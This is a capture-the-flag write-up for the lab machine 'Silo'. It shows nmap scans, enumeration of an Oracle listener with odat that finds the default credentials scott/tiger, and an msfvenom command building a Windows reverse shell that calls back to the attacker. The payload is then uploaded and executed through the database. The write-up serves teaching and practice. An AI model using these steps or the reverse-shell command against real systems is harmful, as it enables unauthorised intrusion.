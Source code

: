 # Recon

I do my initial scan to see which ports are open.
## nmap
```
# Nmap 7.92 scan initiated Tue Aug  9 17:53:53 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv silo.htb
Nmap scan report for silo.htb (10.129.95.188)
Host is up, received echo-reply ttl 127 (0.066s latency).
Scanned at 2022-08-09 17:53:53 CDT for 14s
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
1521/tcp  open  oracle       syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49159/tcp open  unknown      syn-ack ttl 127
49160/tcp open  unknown      syn-ack ttl 127
49161/tcp open  unknown      syn-ack ttl 127
49162/tcp open  unknown      syn-ack ttl 127
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan. I ignore the ephemeral ports (47001 - 49162) as these are not common ports and are likely used as named pipes for RPC.

```
# Nmap 7.92 scan initiated Tue Aug  9 17:55:15 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,139,445,1521,5985 silo.htb
Nmap scan report for silo.htb (10.129.95.188)
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2022-08-09 17:55:15 CDT for 15s

PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open  oracle-tns   syn-ack ttl 127 Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-09T22:55:25
|_  start_date: 2022-08-09T22:49:21
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51651/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 65151/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 53292/udp): CLEAN (Timeout)
|   Check 4 (port 16975/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: -1s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug  9 17:55:30 2022 -- 1 IP address (1 host up) scanned in 15.84 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get anything too helpful, so it looks like we are working with the following services:

- port 80: Microsoft IIS httpd 8.5
- port 135: Microsoft Windows RPC
- port 139: Microsoft Windows netbios-ssn
- port 445: Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (SMB)
- port 1521: Oracle TNS listener 11.2.0.2.0 (unauthorized)

# Enumeration

## Website

There is a default IIS instalation page, so perhaps this could be a misconfigured server.

![584f5e9dd609744786559699f1d1d11e.png](../_resources/584f5e9dd609744786559699f1d1d11e.png)

To save some typing/reading, there was nothing helpful from Nikto or Feroxbuster so I will enumerate port 1521 next.

## Oracle TNS listener 

Since I am unfamiliar with this service, I like to use book.hacktricks.xyz as a good resource for testing a particular service:
https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

Half of the above page mentions a tool called odat. This can be found here:
https://github.com/quentinhardy/odat

It was a bit of a pain setting up odat and took me two tries to get it working. For my second installation attempt I followed Ipp's guide and had no problems:
https://www.youtube.com/watch?v=2c7SzNo9uoA

After I get it working, I then follow the official documentation and run `./odat.py all -s 10.129.95.188 -p 1521`. This runs for a while and eventually returns default creds `scott/tiger` for SID XE and SID XEXDB.

![oracle-creds.png](../_resources/oracle-creds.png)
![56b36587e41f0e6de79cff7bb71f35da.png](../_resources/56b36587e41f0e6de79cff7bb71f35da.png)

Armed with a valid SID and set of credentials, we can then create a reverse shell to upload to the db. I'll use msvenom as so:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > rshell.exe`

Followed by returning to odat and using utlfile to upload the file.

![3bebcd89c249603872a22388729376fe.png](../_resources/3bebcd89c249603872a22388729376fe.png)

From there we can execute our uploaded reverse shell with externaltable like so: 

![5813f438509cf831f3f47685de4144ea.png](../_resources/5813f438509cf831f3f47685de4144ea.png)

For some reason my meterpreter session kept dying. I tried using a regular nc listener to catch the shell which worked as a workaround.

![f03cc38cfaab9898e8a874a2b92cd900.png](../_resources/f03cc38cfaab9898e8a874a2b92cd900.png)

![c53b6d2fea18dd2675e842df323a873f.png](../_resources/c53b6d2fea18dd2675e842df323a873f.png)

Collect our loot and move on to the next box! :)

![loot.png](../_resources/loot.png)

